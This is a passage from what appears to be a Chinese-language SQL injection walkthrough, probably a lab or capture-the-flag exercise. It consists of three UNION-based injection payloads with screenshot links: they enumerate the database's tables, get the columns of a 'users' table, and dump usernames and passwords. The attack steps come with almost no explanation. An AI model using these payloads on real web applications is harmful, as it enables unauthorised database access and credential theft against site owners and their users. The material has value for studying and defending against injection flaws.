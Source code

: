 ```bash
1" and 1=2  union select database(),user(),group_concat(table_name)  from information_schema.tables where table_schema=database()-- -
```

![image-20240622173952879](./imgs/image-20240622173952879.png)

获取字段名

```bash
1" and 1=2  union select database(),user(),group_concat(column_name)  from information_schema.columns where table_schema=database() and table_name='users' -- -
```



![image-20240622174113697](./imgs/image-20240622174113697.png)

获取用户名

```bash
1" and 1=2  union select group_concat(user),group_concat(pass),group_concat(position)  from users-- -
```



![image-20240622174307321](./imgs/image-20240622174307321.png)
